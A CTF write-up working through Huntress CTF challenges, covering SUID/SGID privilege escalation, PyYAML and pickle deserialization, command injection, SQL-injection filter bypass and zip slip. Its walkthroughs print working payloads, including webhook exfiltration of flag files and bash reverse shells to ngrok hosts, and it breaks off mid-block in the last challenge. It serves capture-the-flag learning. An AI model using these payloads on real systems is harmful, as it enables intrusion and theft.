## Warmups
### Finders fee
>You gotta make sure the people who find stuff for you are rewarded well!  
>**Escalate your privileges and uncover the `flag.txt` in the `finder` user's home directory.**
>
>Author: @JohnHammond

I tried `find` to locate the flag, only to learn I don't have read permissions. Interesting how `find` was able to locate, and I learn that it has interesting permissions:
```
user@finders-fee-4e5001a519aad066-699457c45c-9ns4x:/$ find . -name "*.txt" 2>/dev/null
./usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/requires.txt
./usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/entry_points.txt
./usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/top_level.txt
./usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/dependency_links.txt
./usr/lib/python3/dist-packages/distro-1.9.0.dist-info/entry_points.txt
./usr/lib/python3/dist-packages/distro-1.9.0.dist-info/top_level.txt
./usr/lib/python3/dist-packages/dbus_python-1.3.2.egg-info/top_level.txt
./usr/lib/python3/dist-packages/dbus_python-1.3.2.egg-info/dependency_links.txt
./usr/lib/python3.12/LICENSE.txt
./home/finder/flag.txt
user@finders-fee-4e5001a519aad066-699457c45c-9ns4x:/$ cat /home/finder/flag.txt
cat: /home/finder/flag.txt: Permission denied
user@finders-fee-4e5001a519aad066-699457c45c-9ns4x:/$ ls -al /home/finder/flag.txt
ls: cannot access '/home/finder/flag.txt': Permission denied
user@finders-fee-4e5001a519aad066-699457c45c-9ns4x:/$ which find
/usr/bin/find
user@finders-fee-4e5001a519aad066-699457c45c-9ns4x:/$ ls -al /usr/bin/find
-rwxr-sr-x 1 root finder 204264 Apr  8  2024 /usr/bin/find
```

Turns out there is SGID, meaning it executes as finder group.

```
user@finders-fee-4e5001a519aad066-699457c45c-9ns4x:/$ find /home/finder/flag.txt -exec cat {} \;
flag{63a10f0440218364424b20f9ddf6ad39}
```

-----
### Whamazon
>Wham! Bam! Amazon is entering the hacking business! Can you buy a flag?
>
>Author: @JohnHammond

Going to the landing page is a small interactive terminal. We have $50, and it seems we need to buy the flag for $1000000000.



We are slightly short, so we need to make money somehow. Anything that is not a digit seems to fail, so it's looking like injection is not an option. When we try to buy 0 apples, it seems to "succeed"



If we try negative numbers, this also seems to work and gives us the money difference!



Now we just need to buy `-100000000` apples and we will have enough money! However the challenge is not over:



I thought this was a situation where you had to select all 3 options to win, but I wasn't able to pick more than 1 option. I guess it's easy to get more money if you fail the random guess, but I managed to win 1st try:



Now we can grab the flag from the main inventory:



`flag{18bdd83cee5690321bb14c70465d3408}`

---------------------
### Unbelievable
>Don't believe everything you see on the Internet!  
>Anyway, have you heard this intro soundtrack from Half-Life 3?
>
>Author: @JohnHammond

Step 1: open file


Not sure if I missed something, but that was literally all it took for me.

`flag{a85466991f0a8dc3d9837a5c32fa0c91}`

---
### Zulu
>Did you know that zulu is part of the phonetic alphabet?
>
>Author: @JohnHammond

We are given a file with no extension:
```
$ file zulu 
zulu: compress'd data 16 bits
```
It looks compressed, so I just throw it into 7zip:
```
$ 7z x zulu

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i5-4690K CPU @ 3.50GHz (306C3),ASM,AES-NI)

Scanning the drive for archives:
1 file, 46 bytes (1 KiB)

Extracting archive: zulu
--
Path = zulu
Type = Z

Everything is Ok

Size:       39
Compressed: 46
```
A bit funny that the uncompressed file is smaller than compressed.
```
$ cat zulu~
flag{74235a9216ee609538022e6689b4de5c}
```

----
### Typo
>Gosh darnit, I keep entering a typo in my Linux command prompt!
>
>Author: @JohnHammond

Every time we ssh, we are shown a train before exiting. No interruption commands work.

Just add -t courtesy https://stackoverflow.com/questions/18522647/run-ssh-and-immediately-execute-command to choose a command on entry. For this, we must select a non-bash shell to enter.
```
┌──(kali㉿kali)-[~/Documents/huntressctf]
└─$ ssh -p 30880 user@challenge.ctf.games -t 'sh -i' 
user@challenge.ctf.games's password: 
~ $ id
uid=1000(user) gid=1000(user) groups=1000(user)
~ $ ls -al
total 20
drwxr-sr-x    1 user     user          4096 Oct  7 18:29 .
drwxr-xr-x    1 root     root          4096 Oct  7 18:29 ..
-rwxr-xr-x    1 user     user          3780 Oct  7 18:29 .bashrc
-rw-r--r--    1 user     user            17 Oct  7 18:29 .profile
-r--------    1 user     user            39 Oct  7 18:29 flag.txt
~ $ cat flag.txt
flag{36a0354fbf59df454596660742bf09eb}
```

----
## Miscellaneous

### Permission To Proxy

>Where do we go from here?  
>Escalate your privileges and find the flag in root's home directory.  
>**Yes, the error message you see on startup is intentional. ;)**
>
>Author: @JohnHammond

When we launch the instance, right away we see squid proxy.



This is just a proxy, so it isn't clear right away what our "target" is. There is no other host information, so my best guess is to hit localhost. We can guess ports  until we find something, but I decide to throw it into `ffuf`. We have to remember that we are pivoting from a proxy and targeting localhost, `127.0.0.1`:

```
┌──(kali㉿kali)-[~/Documents/hunstressctf]
└─$ ffuf -x http://challenge.ctf.games:32614/ -u http://127.0.0.1:FUZZ -w nums.txt -fc 403 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: /home/kali/Documents/huntressctf/nums.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://challenge.ctf.games:32614/
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

22                      [Status: 200, Size: 60, Words: 3, Lines: 3, Duration: 178ms]
50000                   [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 197ms]
```

The ssh port `22` shows up immediately, and after spinning for a bit we also see a high number port `50000`. We have no username or password for now, so starting to look with 50000:
```
┌──(kali㉿kali)-[~/Documents/huntressctf]
└─$ curl --proxy http://challenge.ctf.games:32614 127.0.0.1:50000 -v
*   Trying 35.193.148.143:32614...
* Connected to challenge.ctf.games (35.193.148.143) port 32614
> GET http://127.0.0.1:50000/ HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/8.4.0
<...SNIP...>
bash-4.4$ GET / HTTP/1.1
<HTML>
<HEAD>
<TITLE>Directory /</TITLE>
<BASE HREF="file:/">
</HEAD>
<BODY>
<H1>Directory listing of /</H1>
<UL>
<LI><A HREF="./">./</A>
<LI><A HREF="../">../</A>
<LI><A HREF=".docker-entrypoint.sh">.docker-entrypoint.sh</A>
<LI><A HREF="bin/">bin/</A>
<LI><A HREF="boot/">boot/</A>
<LI><A HREF="dev/">dev/</A>
<LI><A HREF="etc/">etc/</A>
<LI><A HREF="home/">home/</A>
<LI><A HREF="lib/">lib/</A>
<LI><A HREF="lib64/">lib64/</A>
<LI><A HREF="media/">media/</A>
<LI><A HREF="mnt/">mnt/</A>
<LI><A HREF="opt/">opt/</A>
<LI><A HREF="proc/">proc/</A>
<LI><A HREF="root/">root/</A>
<LI><A HREF="run/">run/</A>
<LI><A HREF="sbin/">sbin/</A>
<LI><A HREF="srv/">srv/</A>
<LI><A HREF="sys/">sys/</A>
<LI><A HREF="tmp/">tmp/</A>
<LI><A HREF="usr/">usr/</A>
<LI><A HREF="var/">var/</A>
</UL>
</BODY>
</HTML>
<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>
bash-4.4$ 
bash-4.4$ User-Agent: curl/8.4.0
bash: User-Agent:: command not found
bash-4.4$ 
bash-4.4$ Accept: */*
bash: Accept:: command not found
bash-4.4$ 
<...SNIP...>
```
Visiting the page looks to return a file directory, conveniently enough located at root `/` so we can see the entire filesystem. After navigating through `home`, we eventually land on an interesting file:

]

Small note: to view in browser I set up a `FoxyProxy` entry:


Now we have an SSH key to authenticate. There may be a better way, but for ssh proxying I used `proxychains`. Setting up proxychains.conf:
```
┌──(kali㉿kali)-[~/Documents/huntressctf]
└─$ tail /etc/proxychains4.conf 
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4        127.0.0.1 9050
http  35.193.148.143 32614
```
This IPV4 was identified from the previous curl command.
```
* Connected to challenge.ctf.games (35.193.148.143) port 32614
```

```
┌──(kali㉿kali)-[~/Documents/huntressctf]
└─$ proxychains -q ssh user@127.0.0.1 -i id_rsa
<...SNIP...>
-bash-4.4$ ls
-bash-4.4$ ls -al
total 20
drwxr-xr-x 1 root root 4096 Oct  7 18:29 .
drwxr-xr-x 1 root root 4096 Oct  7 18:29 ..
-rwxr-xr-x 1 user user 3865 Oct  7 18:29 .bashrc
-rw-r--r-- 1 user user   17 Oct  7 18:29 .profile
drwxr-xr-x 1 user user 4096 Oct  7 18:29 .ssh
-bash-4.4$
```
Now we have access, but as per the prompt, the flag is located in /root.
```
-bash-4.4$ cd /
-bash-4.4$ cd root
-bash: cd: root: Permission denied
```
Of course, no access. Now I just decide to rip linpeas, but the privilege escalation is a pretty simple one to find on your own as well.
```
-bash-4.4$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh     
--2024-10-29 23:58:59--  https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
Resolving github.com (github.com)... 140.82.113.3
<...SNIP...>
-bash-4.4$ chmod +x linpeas.sh 
-bash-4.4$ ./linpeas.sh
<...SNIP...>
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                   
                      ╚════════════════════════════════════╝                                                                                                                                         
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid <...SNIP...>
-rwsr-sr-x 1 root root 1.1M Apr 18  2022 /bin/bash
```
Here is bash, with SUID privileges as root. Exploiting:
```
-bash-4.4$ bash -p
bash-4.4# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
```
Now we can get the flag!
```
bash-4.4# cd /root
bash-4.4# cat flag.txt 
flag{c9bbd4888086111e9f632d4861c103f1}
```

----
## Web
### Y2J
>Everyone was so worried about Y2K, but apparently _it was a typo all along_!!  
>The real world-ending fears were from **Y2J**!
>Find the flag.txt file in the root of the filesystem.
>
>Author: JohnHammond#6971

There is no source code provided, so we must go in blind. On entering, there is only 1 page: a YAML to JSON converter:



If we take a look at the response headers, we can see it is python based:
```
$ chttp://challenge.ctf.games:30167/:30167/  
HTTP/1.1 200 OK  
Server: Werkzeug/3.0.3 Python/3.12.7  
Date: Sat, 02 Nov 2024 04:19:40 GMT  
Content-Type: text/html; charset=utf-8  
Content-Length: 2532  
Connection: close
```

After a quick google search we might begin to suspect that this could be related to PyYAML deserialization attacks. There is a [HackTricks page](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization) that covers the basics of this. As a test, I used a sleep command:

(trust me bro the sleep happened)

Also it's worth noting that there wasn't an error message here, so I have pretty high confidence that remote execution is possible here and we can use this approach to get the flag. There is a flag read example on HackTricks, but unfortunately I was getting attribute errors:



Eventually I found a very small and simple payload at the [gihub repository from wallarm](https://github.com/wallarm/fast-detects/blob/master/pyyaml-deserialization.yaml). After some small modifications, I got the service to reach out to my webhook.
```
!!python/object/new:exec [import os; os.system('wget https://webhook.site/115e8884-91f4-4d29-8d48-3f58a50fbba4/')]
```



Small note: for simple CTF deployment instances I find that `curl` is not always present, but usually `wget` will be. So even though I'm not using this to download anything, i know i can communicate from the server without having to mess with a full-blown reverse shell. 

From here I can just append a `cat /flag.txt` command, and the output gets sent to the webhook
```
!!python/object/new:exec [import os; os.system('wget https://webhook.site/115e8884-91f4-4d29-8d48-3f58a50fbba4/`cat /flag.txt`')]
```



`flag{b20870a1955ac22377045e3b2dcb832a}`

----

### Plantopia
>Plantopia is our brand new, cutting edge plant care management website! Built for hobbiests and professionals alike, it's your one stop shop for all plant care management.  
>Please perform a penetration test ahead of our site launch and let us know if you find anything.
>Username: `testuser` 
>Password: `testpassword`
>
>Author: @HuskyHacks


After logging in, we have a dashboard that is not very interactive:


Not very interesting. It seems the way to interact here is through API, so we go to the API Docs page. We can try to authorize, and they give us interesting information:



Straight up they tell us how we can forge a token. We can take a look at our legitimate token by viewing the cookies. In firefox, you can right click -> Inspect (or ctrl+shift+I) to open up devtools, then navigate to storage:



Decode in command line:
```
$ echo "dGVzdHVzZXIuMC4xNzMwNTI2MDg0" | base64 -d  
testuser.0.1730526084
```
Looks like admin is expecting `testuser.1` so we can just base64 encode the new cookie the same way:
```
$ echo "testuser.1.1730526084" | base64
dGVzdHVzZXIuMS4xNzMwNTI2MDg0Cg==
```

Now we can check with the `/api/admin/settings`:




Now we have it working as Admin. This request is also interesting because the "alert_command" key seems to be accepting shell command format. Potentially we can insert our own command here to run. If we remove sendmail we get the following error:
```json
{
  "error": "Alert command must include '/usr/sbin/sendmail'"
}
```
Potentially we can append an additional command though?
```json
{
  "plant_id": 1,
  "alert_command": "/usr/sbin/sendmail -t && sleep 5",
  "watering_threshold": 50
}
```
This submission is accepted, but in this API we are only setting up the execution not actually running. To execute, we can go to the `/api/admin/sendmail`


(Trust me bro it hung for 5 seconds because of the sleep)

Now that it's looking like the RCE is possible this way, time to return back to my trusty webhook:



The sleep is working clearly, but unfortunately for us it seems both `curl` and `wget` don't exist. I solved this using `ngrok` first, but in a second review I think an easier, slightly cheekier method is to write over an image.

#### Solve method: overwrite an image
Python web servers rely on routing, so we can't exactly visit any file that exists in folders as we could with other web services. However, if there is sufficient write privileges, we can overwrite files. Most important files (such as `app.py`) are likely write protected, but objects in the static folders sometimes are not. In this case we can use it to receive RCE output!
```json
{
  "plant_id": 1,
  "alert_command": "/usr/sbin/sendmail -t && ls -al > static/images/aloe.jpg",
  "watering_threshold": 50
}
```
If we visit in browser, it will try to be loaded as an image due to the application-type, and it fails. However we can still curl:
```
$ curl http://challenge.ctf.games:30706/static/images/aloe.jpeg  
total 88  
drwxr-xr-x 1 root root  4096 Nov  2 04:40 .  
drwxr-xr-x 1 root root  4096 Sep 30 07:09 ..  
drwxr-xr-x 2 root root  4096 Nov  2 04:40 __pycache__  
-rw-r--r-- 1 root root   647 Sep 30 07:09 admin_utils.py  
-rw-r--r-- 1 root root  6471 Sep 30 07:09 api.py  
-rw-r--r-- 1 root root 10452 Sep 30 07:09 app.py  
-rw-r--r-- 1 root root    39 Sep 30 07:09 flag.txt  
-rw-r--r-- 1 root root  3618 Sep 30 07:09 models.py  
-rw-r--r-- 1 root root    38 Sep 30 07:09 requirements.txt  
-rw-r--r-- 1 root root 15425 Nov  2 05:07 server.log  
drwxr-xr-x 1 root root  4096 Sep 30 07:09 static  
drwxr-xr-x 2 root root  4096 Sep 30 07:09 templates  
-rw-r--r-- 1 root root  2368 Sep 30 07:09 utils.py
```
Now we know it works, and also that `flag.txt` is in the pwd.
```json
{
  "plant_id": 1,
  "alert_command": "/usr/sbin/sendmail -t && cat flag.txt > static/images/aloe.jpg",
  "watering_threshold": 50
}
```
Retrieving the flag:
```
$ curl http://challenge.ctf.games:30706/static/images/aloe.jpeg  
flag{c29c4d53fc432f7caeb573a9f6eae6c6}
```

#### Solve method: Reverse shell via ngrok
Reverse shells are very powerful, and since my go-to method of `wget` on a webhook wasn't working out I also want to verify if wget doesn't exist.

An [ngrok account](https://ngrok.com/) must be created and a token assigned, but once the hard work is done the command line is really simple:
```
┌──(kali㉿kali)-[~/Documents/huntressctf]
└─$ ngrok tcp 8080 
```
While running it gives a small interface with details and will list some connection information when they occur.


From [revshells](https://www.revshells.com/), we can grab a simple bash 1liner:
```json
{
  "plant_id": 1,
  "alert_command": "/usr/sbin/sendmail -t; bash -c 'bash -i >& /dev/tcp/0.tcp.ngrok.io/14052 0>&1'",
  "watering_threshold": 50
}
```
After executing sendmail:
```
┌──(kali㉿kali)-[~/Documents/huntressctf]
└─$ nc -nvlp 8080                      
listening on [any] 8080 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47598
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@plantopia-4f0ea2e6b6415cf0-55ff95c748-sl457:/srv/app# id
id
uid=0(root) gid=0(root) groups=0(root)
root@plantopia-4f0ea2e6b6415cf0-55ff95c748-sl457:/srv/app# cat flag.txt
cat flag.txt
flag{c29c4d53fc432f7caeb573a9f6eae6c6}
root@plantopia-4f0ea2e6b6415cf0-55ff95c748-sl457:/srv/app# 
```

No curl or wget by the way:
```
root@plantopia-4f0ea2e6b6415cf0-55ff95c748-sl457:/srv/app# which wget
which wget
root@plantopia-4f0ea2e6b6415cf0-55ff95c748-sl457:/srv/app# which curl
which curl
root@plantopia-4f0ea2e6b6415cf0-55ff95c748-sl457:/srv/app# find / -name "wget" 2>/dev/null
<748-sl457:/srv/app# find / -name "wget" 2>/dev/null       
root@plantopia-4f0ea2e6b6415cf0-55ff95c748-sl457:/srv/app#
```


---------
### HelpfulDesk
>HelpfulDesk is the go-to solution for small and medium businesses who need remote monitoring and management. Last night, HelpfulDesk released a security bulletin urging everyone to patch to the latest patch level. They were scarce on the details, but I bet that can't be good...
>
>Author: @HuskyHacks

Quite surprised there hadn't been more solves on this challenge, as I immediately recognized it as a recycled question from [a previous CTF](https://github.com/BaadMaro/CTF/tree/main/NahamCon%20CTF%202024/HelpfulDesk). This linked write-up is quite well made, so I recommend checking them out to see how this challenge is solved ;)

-------------------
#### PillowFight
>PillowFight uses _**advanced AI/MLRegressionLearning***_ to combine two images of your choosing  
>-note to investors this is not techically true at the moment we're using a python library but please give us money and we'll deliver it we promise.
>
>Author: @HuskyHacks

The Landing page here is a nice image combiner tool:


Once again we are seeing Python, and once again we are seeing API documentation? It's even Swagger-based again:



This one seems pretty straightforward as well, since there is a field for `eval_command`. I have done a few python jails in my time, and a specific escape that I did on an `eval` command I can recall in the [Hack The Box exercise Busqueda](https://spencerja.github.io/post/hackthebox-busqueda/). Here, I basically just use the same payload and swap out the IP address for my ngrok:
```
__import__('os').system('bash -c "bash -i >& /dev/tcp/2.tcp.ngrok.io/17256 0>&1"')#
```
The swagger submission provides a simple curl of my submission, which looks like this:
```
curl -X POST "http://challenge.ctf.games:31774/combine" -H "accept: image/png" -H "Content-Type: multipart/form-data" -F "image1=@7d5.jpg;type=image/jpeg" -F "image2=@7d5.jpg;type=image/jpeg" -F "eval_command=__import__('os').system('bash -c "bash -i >& /dev/tcp/2.tcp.ngrok.io/17256 0>&1"')#"
```
Despite the apparent quotation issues in the curl request, the reverse shell still hits my kali:
```
┌──(kali㉿kali)-[~/Documents/huntressctf]
└─$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 42116
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@pillowfight-36bcbaf9e30833e7-d4d844d7-b6fth:/app# id
id
uid=0(root) gid=0(root) groups=0(root)
root@pillowfight-36bcbaf9e30833e7-d4d844d7-b6fth:/app# cat flag.txt
cat flag.txt
flag{b6b62e6c5cdfda3b3a8b87d90fd48d01}
```


--------------

### MOVEable

>Ever wanted to move your files? You know, like with a fancy web based GUI instead of just FTP or something?  
>Well now you can, with our super secure app, **MOVEable**!  
>Escalate your privileges and find the flag.
>
>Author: @JohnHammond#6971

For this challenge we get source code. As a start, the login design is instantly notable:
```python
@app.route('/login', methods=['POST'])  
def login_user():  
   username = DBClean(request.form['username'])  
   password = DBClean(request.form['password'])  
      
   conn = get_db()  
   c = conn.cursor()  
   sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"  
   c.executescript(sql)  
   user = c.fetchone()  
   if user:  
       c.execute(f"SELECT sessionid FROM activesessions WHERE username=?", (username,))  
       active_session = c.fetchone()  
       if active_session:  
           session_id = active_session[0]  
       else:  
           c.execute(f"SELECT username FROM users WHERE username=?", (username,))  
           user_name = c.fetchone()  
           if user_name:  
               session_id = str(uuid.uuid4())  
               c.executescript(f"INSERT INTO activesessions (sessionid, timestamp) VALUES ('{session_id}', '{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')}')")  
           else:  
               flash("A session could be not be created")  
               return logout()  
          
       session['username'] = username  
       session['session_id'] = session_id  
       conn.commit()  
       return redirect(url_for('files'))  
   else:  
       flash('Username or password is incorrect')  
       return redirect(url_for('home')
```
It looks as though SQL injection is possible. When we look at the sanitizing function DBClean:
```python
def DBClean(string):  
   for bad_char in " '\"":  
       string = string.replace(bad_char,"")  
   return string.replace("\\", "'")
```
It looks like whitespace and quotation marks are replaced with nothing (removed), and backslash characters are replaced with single quotes. Portswigger has a great resource on [bypassing common filters for SQL injection](https://portswigger.net/support/sql-injection-bypassing-common-filters). We can utilize inline comments `/**/` to simulate spaces, and backslashes in substitution for single quotes:
```
\/**/OR/**/1=1--
```


Unfortunately, this does not work. Seemingly this is because during the initialization there is no account creation in the database:
```python
def init_db():  
   with app.app_context():  
       db = get_db()  
       c = db.cursor()  
  
       c.execute("CREATE TABLE IF NOT EXISTS users (username text, password text)")  
       c.execute("CREATE TABLE IF NOT EXISTS activesessions (sessionid text, username text, timestamp text)")  
       c.execute("CREATE TABLE IF NOT EXISTS files (filename text PRIMARY KEY, data blob, sessionid text)")  
  
       c.execute("INSERT OR IGNORE INTO files VALUES ('flag.txt', ?, NULL)",  
                 (base64.b64encode(pickle.dumps(b'lol just kidding this isnt really where the flag is')).decode('utf-8'),))  
       db.commit()
```
With SQL injection here, I thought we could insert our own account into the user table:
```
user\;/**/INSERT/**/INTO/**/users/**/(username,/**/password)/**/VALUES/**/(\user\,/**/\user\)--
```
If the SQL execution fails we receive a 500 error. So when I see an error referring to login, I know my SQL injection is not producing the errors. However, even after adding `user:user` I was still unable to login.

We cannot hit the `files` page without first authenticating due to how login "creates" the session. However, if we inject an entry into `activesessions` table, we can perform downloads:
```python
@app.route('/download/<filename>/<sessionid>', methods=['GET'])  
def download_file(filename, sessionid):  
   conn = get_db()  
   c = conn.cursor()  
   c.execute(f"SELECT * FROM activesessions WHERE sessionid=?", (sessionid,))  
      
   active_session = c.fetchone()  
   if active_session is None:  
       flash('No active session found')  
       return redirect(url_for('home'))  
   c.execute(f"SELECT data FROM files WHERE filename=?",(filename,))  
      
   file_data = c.fetchone()  
   if file_data is None:  
       flash('File not found')  
       return redirect(url_for('files'))  
  
   file_blob = pickle.loads(base64.b64decode(file_data[0]))  
   try:       
       return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)  
   except TypeError:  
       flash("ERROR: Failed to retrieve file. Are you trying to hack us?!?")  
       return redirect(url_for('files'))
```
There is something very important in downloads that I overlooked for a long time:
```python
   file_data = c.fetchone()  
   if file_data is None:  
       flash('File not found')  
       return redirect(url_for('files'))  
  
   file_blob = pickle.loads(base64.b64decode(file_data[0])) 
```
We can inject into tables, so we can add pickle data to the `data` table and abuse [Pickle RCE methods](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)! Firstly, injecting an active session:
```
\;/**/INSERT/**/INTO/**/activesessions/**/VALUES/**/(\1\,/**/\user\,/**/\2024-10-27 23:10:1730089965.112070\)--
```
For a pickle payload generator, I based my commands from [this github repo](https://github.com/CalfCrusher/Python-Pickle-RCE-Exploit).
```python    
#!/usr/bin/python  
#  
# Pickle deserialization RCE exploit  
# calfcrusher@inventati.org  
#  
# Usage: ./Pickle-PoC.py [URL]  
  
import pickle  
import base64  
import requests  
import sys  
  
class PickleRCE(object):  
   def __reduce__(self):  
       import os  
       return (os.system,(command,))  
  
default_url = 'http://127.0.0.1:5000/vulnerable'  
url = sys.argv[1] if len(sys.argv) > 1 else default_url  
command = '/bin/bash -c "bash -i >& /dev/tcp/2.tcp.ngrok.io/11707 0>&1"'  # Reverse Shell Payload Change IP/PORT  
  
pickled = 'pickled'  # This is the POST parameter of our vulnerable Flask app  
payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting Payload  
#print(url, data={pickled: payload})  # Sending POST request  
print(payload)
```
Running the script:
```
$ python rce.py    
b'gASVVwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDwvYmluL2Jhc2ggLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMi50Y3Aubmdyb2suaW8vMTE3MDcgMD4mMSKUhZRSlC4='
```
Inserting the pickle:
```
a\;/**/INSERT/**/INTO/**/files/**/SELECT/**/\rce\,/**/\gASVVwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDwvYmluL2Jhc2ggLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMi50Y3Aubmdyb2suaW8vMTE3MDcgMD4mMSKUhZRSlC4=\,/**/\1\--
```
Now, executing the pickle load:
```
$ curl http://challenge.ctf.games:32291/download/rce/1 -v  
* Host challenge.ctf.games:32291 was resolved.  
* IPv6: (none)  
* IPv4: 35.193.148.143  
*   Trying 35.193.148.143:32291...  
* Connected to challenge.ctf.games (35.193.148.143) port 32291  
* using HTTP/1.x  
> GET /download/rce/1 HTTP/1.1  
> Host: challenge.ctf.games:32291  
> User-Agent: curl/8.10.1  
> Accept: */*  
>    
* Request completely sent off
```
Meanwhile, on the `nc` listener I get a connection.
```
┌──(kali㉿kali)-[~/Documents/huntressctf]
└─$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 54558
bash: cannot set terminal process group (9): Inappropriate ioctl for device
bash: no job control in this shell
moveable@moveable-e62c7d47abb4b38d-66659f8889-wmgjg:~$ id
id
uid=1000(moveable) gid=1000(moveable) groups=1000(moveable)
```
Even now, we are not done as we have to elevate our privileges as described in the prompt.

Fortunately, we can run any command as sudo:
```
moveable@moveable-e62c7d47abb4b38d-66659f8889-wmgjg:~$ sudo -l
sudo -l
Matching Defaults entries for moveable on
    moveable-e62c7d47abb4b38d-66659f8889-wmgjg:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User moveable may run the following commands on
        moveable-e62c7d47abb4b38d-66659f8889-wmgjg:
    (root) NOPASSWD: ALL
```
Executing sudo su:
```
moveable@moveable-e62c7d47abb4b38d-66659f8889-wmgjg:~$ sudo su
sudo su
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/flag.txt
flag{ac53cd7aa8a2d1b2340a6eb4a356709e}
```

-----
### Zippy
>Need a quick solution for archiving your business files? Try Zippy today, the Zip Archiver built for the small to medium business!  
>NOTE: This challenge may take _up to two minutes_ or so to completely start and load in your browser. Please wait.
>
>Author: @HuskyHacks

Here we have an archive unzipper:


A really important note on their About page, **Now with runtime compilation!**



On the `Browse` page, we can view any folder but cannot access files. If we check the main app folder, we see an interesting naming motif:



It's looking like a [Zip Slip](https://www.sonarsource.com/blog/openrefine-zip-slip/) attack, and with the names Zippy and Slippy being used it's a pretty on-the-nose hint. We can create our own malicious archives using [evilarc](https://github.com/ptoomey3/evilarc/tree/master):
```
$ python slipper.py ./test.txt -d 4 -o unix -p /app/wwwroot/  
Creating evil.zip containing ../../../..//app/wwwroot/test.txt  

$ ls -al evil.zip    
-rw-r--r-- 1 spencer spencer 171 Nov  2 12:41 evil.zip
```
After uploading it, we can find `test.txt` in the wwwroot!



I spent a long time throwing files in random locations with very little success. Unfortunately, this is not php based nor on a Windows machine so I had a lot of trouble creating a kind of accessible webshell. 

Eventually the "Now with runtime compilation" note came to mind, and I found [articles on SSTI in asp.net Razor](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/). I had ChatGPT create a template to replace their About.cshtml page:
```
@page  
@model AboutModel  
  
<!DOCTYPE html>  
<html lang="en">  
<head>  
   <meta charset="UTF-8">  
   <meta name="viewport" content="width=device-width, initial-scale=1.0">  
   <title>My Example Page</title>  
   <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/bootstrap/5.1.3/css/bootstrap.min.css">  
</head>  
<body>  
   <div class="container mt-5">  
       <h1>My Example Page</h1>  
  
       <form method="post" asp-action="AddItem">  
           <div class="mb-3">  
               <label for="item" class="form-label">Add a New Item</label>  
               <input type="text" id="item" name="item" class="form-control" required />  
           </div>  
           <button type="submit" class="btn btn-primary">Add Item</button>  
       </form>  
  
       <h2 class="mt-4">Items List</h2>  
       <ul class="list-group">  
       </ul>  
   </div>  
  
   <script src="https://cdnjs.cloudflare.com/ajax/libs/bootstrap/5.1.3/js/bootstrap.bundle.min.js"></script>  
</body>  
</html>
```
Now replacing the About.cshtml:
```
$ python slipper.py ./About.cshtml -d 4 -o unix -p /app/Pages  
Creating evil.zip containing ../../../..//app/Pages/About.cshtml
```
Visiting the page:



Now we can start inserting our malicious code to the `About.cshml`. After a bit of trial and error, I end up with a successful 2 step write-run of a reverse shell. First, upload a reverse shell in `r.sh`:
```
$ cat r.sh    
#!/bin/bash  
/bin/bash -i >& /dev/tcp/2.tcp.ngrok.io/17321 0>&1
```
You can zip-slip this or not, it really doesn't matter where it goes as long as you define the full path in `About.cshtml`:
```
$ python slipper.py ./r.sh -d 4 -o unix -p /app/Pages  
Creating evil.zip containing ../../../..//app/Pages/r.sh
```
Confirming the upload:


Now, we upload an About.cshtml file that executes the reverse shell:
```
@page  
@model AboutModel  
@System.Diagnostics.Process.Start("/app/Pages/r.sh","a")  
  
<!DOCTYPE html>  
<html lang="en">
<...SNIP...>
```
Upload this the same way, and now whenever we visit About we get a reverse shell!
```
┌──(kali㉿kali)-[~/Documents/huntressctf]
